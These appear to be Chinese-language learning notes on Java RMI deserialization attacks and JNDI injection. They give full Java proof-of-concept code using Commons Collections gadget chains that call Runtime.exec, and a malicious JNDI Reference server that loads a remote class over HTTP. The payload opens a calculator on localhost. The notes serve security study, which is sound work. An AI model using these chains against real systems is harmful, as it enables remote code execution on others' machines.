







## Rmi源码

- [Java RMI 通信源码分析](https://www.guildhab.top/2021/07/java-rmi-通信源码分析/) ✅

## Rmi攻击方式

RMI 调用过程中全部通信均通过序列化数据实现，参与一次 RMI 调用的有三个角色，分别是 **Server** 端，**Registry** 端和 **Client** 端，虽然一般来说 **Server**端和**Registry**端在同一端，不过为了划分清楚我们还是分为这三个端。

那么，就基于原生反序列化，对以上三端都有攻击的可能。

先看一个正常的例子：

```
🌀  rmi  tree 
├── client
│   ├── Client.java
│   ├── Client2Server.java
│   └── Server2Client.java
├── model
│   ├── Hello.java
│   └── HelloImpl.java
├── registry
│   └── Registry.java
└── server
    ├── Server.java
    └── Server2Registry.java
```

**model.Hello**：

```java
public  interface Hello extends Remote{
    String sayHello(String name) throws RemoteException;
    String exp_client2server(Object payload) throws RemoteException;
    Object exp_server2client() throws Exception;
}
```

**model.HelloImpl**：`sayHello`为客户端正常调用的方法，`exp_client2server(Object payload)`为客户端攻击服务端方法，`exp_server2client()`为服务端攻击客户端

```java
public class HelloImpl extends UnicastRemoteObject implements Hello {
    public HelloImpl() throws RemoteException {
    }

    @Override
    public String sayHello(String name) throws RemoteException {
        return "Hello" + name;
    }

    @Override
    public String exp_client2server(Object payload) throws RemoteException {
        return "Hack to server";
    }

    @Override
    public Object exp_server2client() throws Exception {
        return payload();
    }

    public  static  Object payload() throws  Exception{
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"open -a Calculator"})});

        HashMap innermap = new HashMap();
        Map map =  LazyMap.decorate(innermap,chain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, null);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        Field val = BadAttributeValueExpException.class.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,tiedMapEntry);
        return badAttributeValueExpException;
    }
}
```

**register.Register**：

```java
package registry;

import java.rmi.registry.LocateRegistry;

public class Registry {
    public static void main(String[] args)throws Exception {
        LocateRegistry.createRegistry(1099);
        while (true);
    }
}
```

**server.Server**：

```java
public class Server  {
    public static void main(String[] args) throws  Exception{
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        Hello h = new HelloImpl();
        registry.bind("hello",h);
        System.out.println("[+] RmiServer start");
    }
}
```

**client.Client**：

```java
public class Client {
    public static void main(String[] args) throws Exception {
        Hello h = (Hello) Naming.lookup("rmi://localhost:1099/hello");
        System.out.println(h.sayHello("theoyu"));
    }
}
```

先运行Register，然后Server，最后Client。

### Client攻击Server

Server端存在`exp_client2server(Object payload)`方法，Client可以传入一个Object对象，Server在接收是反序列化触发，这里选用CC5：

```java
public class Client2Server {
    public static void main(String[] args)throws Exception {
        Hello h = (Hello) Naming.lookup("rmi://localhost:1099/hello");
        h.exp_client2server(payload());
    }
    public  static  Object payload() throws  Exception{
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"open -a Calculator"})});

        HashMap innermap = new HashMap();
        Map map =  LazyMap.decorate(innermap,chain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, null);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        Field val = BadAttributeValueExpException.class.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,tiedMapEntry);
        return badAttributeValueExpException;
    }
}
```



### Server攻击Client

`exp_server2client()`返回了一个恶意Object对象，客户端接收时触发

```java
public class Server2Client {
    public static void main(String[] args)throws Exception {
        Hello h = (Hello) Naming.lookup("rmi://localhost:1099/hello");
        h.exp_server2client();
    }
}
```



### 攻击Registry

在使用 **Registry** 时，首先由 **Server** 端向 **Registry** 端绑定服务对象，这个对象是一个 **Server** 端生成的动态代理类，**Registry** 端会反序列化这个类并存在自己的 RegistryImpl 的 **bindings** 中，以供后续的查询。所以如果我们是一个恶意的 **Server** 端，向 **Registry** 端输送了一个恶意的对象，在其反序列化时就可以触发恶意调用。

先上代码：

```java
public class Server2Registry {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler invocationHandler =(InvocationHandler) construct.newInstance(Retention.class, payload());
        Remote remote = (Remote) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[] {Remote.class}, invocationHandler);
        registry.bind("theoyu",remote);
    }

    public static Object payload(){
        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class}, new Object[]{"open -a Calculator"})});

        Map map1 = new HashMap();
        map1.put("value","theoyu");
        Map map2 = TransformedMap.decorate(map1,null,chain);
        return map2;
    }
}
```



用的是cc0的链，因为 **bind()**传入的参数必须是一个**Remote**对象，这里用动态代理把方法转发给**invocationHandler**。后面就是cc0的执行调用链。

### 总结

对于客户端攻击服务端，其实是服务端存在接收 **Object**参数的函数，客户端远程调用时传入恶意**Object**，在服务端触发反序列化。

对于服务端攻击客户端，是服务端本身就存在恶意攻击函数，当客户端调用时，服务端将恶意对象return给客户端，导致在客户端触发反序列化。

对于攻击Registry端，除了 **bind**，由于 **lookup/rebind** 等方法均通过反序列化传递数据，因此此处的实际攻击手段不止 **bind** 一种。也就是说，名义上的 **Server** 端和 **Client** 端都可以攻击 **Registry** 端。

```
public class EvilObject {
    public EvilObject()throws Exception{
        Runtime.getRuntime().exec("open -a Calculator");
    }
}
```

## JDNI注入

### 概念

JNDI 全称为 **Java Naming and Directory Interface**，类似于一个索引中心，它允许客户端通过**name**发现和查找数据和对象。

#### Naming

 **Naming Service** ，简单来说就是**通过名称查找实际对象的服务**。名称服务普遍存在于计算机系统中，比如:

- DNS: 通过域名查找实际的 IP 地址；
- 文件系统: 通过文件名定位到具体的文件；
- 微信: 通过一个微信 ID 找到背后的实际用户(并进行对话)；

在名称系统中，有几个重要的概念。

- **Bindings**: 表示一个名称和对应对象的绑定关系，比如在文件系统中文件名绑定到对应的文件，在 DNS 中域名绑定到对应的 IP。

- **Context**: 上下文，一个上下文中对应着一组名称到对象的绑定关系，我们可以在指定上下文中查找名称对应的对象。比如在文件系统中，一个目录就是一个上下文，可以在该目录中查找文件，其中子目录也可以称为子上下文 (subcontext)。

- **References**: 在一个实际的名称服务中，有些对象可能无法直接存储在系统内，这时它们便以引用的形式进行存储，可以理解为 C/C++ 中的指针。引用中包含了获取实际对象所需的信息，甚至对象的实际状态。比如文件系统中实际根据名称打开的文件是一个整数 fd (file descriptor)，这就是一个引用，内核根据这个引用值去找到磁盘中的对应位置和读写偏移。

#### Directory

目录服务是名称服务的一种拓展，除了名称服务中已有的名称到对象的关联信息外，还允许对象拥有属性(**attributes**)信息。由此，我们不仅可以根据名称去查找(**lookup**)对象(并获取其对应属性)，还可以根据属性值去搜索(**search**)对象。

#### API

总结的来说：JNDI是一个接口，在这个接口下会有多种目录系统服务的实现，在 JDK 中包含了下述内置的目录服务:

- RMI: Java Remote Method Invocation，Java 远程方法调用；
- LDAP: 轻量级目录访问协议；
- CORBA: Common Object Request Broker Architecture，通用对象请求代理架构，用于 COS 名称服务(Common Object Services)；

JNDI 接口主要分为下述 5 个包:

- [javax.naming](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/naming.html)
- [javax.naming.directory](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/directory.html)
- [javax.naming.event](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/event.html)
- [javax.naming.ldap](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/ldap.html)
- [javax.naming.spi](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/provider.html)

我们能通过名称等去找到相关的对象，并把它下载到客户端中来。

### JNDI简单例子

```
├── Client
│   └── Client.java
├── Server
│   └── Server.java
└── model
    └── Person.java
```

**model.Persion**

```java
public class Person implements Remote, Serializable {
    public Person(String name,String passWord){
        this.name=  name;
        this.passWord=  passWord;
    }
    private String name;
    private String passWord;

    public String toString(){
        return "name:"+name+" password:"+passWord;
    }
}
```

**server.Server**

```java
public class Server {
    public static void initPerson() throws Exception{
        LocateRegistry.createRegistry(1099);
        System.setProperty(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        System.setProperty(Context.PROVIDER_URL, "rmi://localhost:1099");
        InitialContext context = new InitialContext();
        Person p = new Person("theoyu","theoyu123");
        context.bind("person",p);
        while (true);
    }

    public static void main(String[] args)throws Exception {
        initPerson();
    }
}
```

**client.Client**

```java
public class Client {
    public static void main(String[] args)throws Exception {
        System.setProperty(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        System.setProperty(Context.PROVIDER_URL, "rmi://localhost:1099");
        InitialContext context = new InitialContext();
        Person person =(Person) context.lookup("person");
        System.out.println(person);
    }
}
```



和rmi实现相比，纯RMI实现的方式主要是调用java.rmi这个包来实现绑定和检索，而JNDI实现的RMI服务则是调用javax.naming这个包，先实现上下文初始化，再进行绑定和检索。

### JNDI-RMI攻击向量

```
├── Client
│   └── Client.java
└── Server
    └── Server.java

```

**Client.Client**：

```java
public class Client {
    public static void main(String[] args)throws Exception {
        Context context = new InitialContext();
        context.lookup("rmi://127.0.0.1:1099/evil");
    }
}
```
**Server.Server**：

```java
public class Server {
    public static void main(String[] args)throws Exception {
        Registry registry =  LocateRegistry.createRegistry(1099);
        Reference refObj = new Reference("EvilObject","EvilObject","http://127.0.0.1:20022/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        registry.bind("evil",refObjWrapper);
    }
}
```

Java为了将Object对象存储在Naming或Directory服务下，提供了Naming Reference功能，对象可以通过绑定Reference存储在Naming或Directory服务下，比如RMI、LDAP等。

在使用Reference时，我们可以直接将对象写在构造方法中，当被调用时，对象的方法就会被触发：

```java
public class EvilObject {
    public EvilObject() throws Exception {
        Runtime.getRuntime().exec("open -a Calculator");
    }
}
```

运行**EvilObject.java**，生成**EvilObject.class**后，移动到其他目录(防止路径加载)，执行`python -m SimpleHTTPServer 20022`。



### JNDI-JDAP攻击向量

通过LDAP攻击向量来利用JNDI注入的原理和RMI攻击向量是一样的，区别只是换了个媒介而已。启动JDAP服务器有点麻烦，就直接用**[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)**



### 版本限制



### 版本绕过

❎

## 学习

- [Java RMI 通信源码分析](https://www.guildhab.top/2021/07/java-rmi-通信源码分析/)  

- [搞懂RMI、JRMP、JNDI-终结篇](https://xz.aliyun.com/t/7264) 

- [Java RMI 攻击由浅入深](https://su18.org/post/rmi-attack/)	

- [JNDI 注入漏洞的前世今生](https://evilpan.com/2021/12/13/jndi-injection/#jndi-101) 

- [搞懂JNDI](https://fynch3r.github.io/%E6%90%9E%E6%87%82JNDI/) 

  